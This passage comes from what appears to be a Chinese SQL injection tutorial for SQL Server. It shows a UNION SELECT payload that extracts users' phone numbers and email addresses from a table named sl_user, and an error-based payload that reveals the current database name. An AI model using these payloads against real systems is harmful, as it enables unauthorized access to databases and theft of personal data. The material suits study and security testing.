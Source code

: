 **5.3.5 获取字段下具体的值**

```
payload：id=1  UNION all SELECT 1,2,shouji,null,5,youxiang,null,8,9,null,null,12,13 from  sl_user
```

<img src="assets/d544cad18663483182e1fac5766e1151.png" alt="d544cad18663483182e1fac5766e1151" style="zoom: 50%;" />



##### 6)sql server的报错注入

与其他数据库报错注入类似。



###### 1.sql server 报错注入的演示



**1.1获取当前数据库**

```
payload：id=1  and 1=(select db_name())
```

<img src="assets/a419dfc522044faab79fdc7106909c1e.png" alt="a419dfc522044faab79fdc7106909c1e" style="zoom: 50%;" />
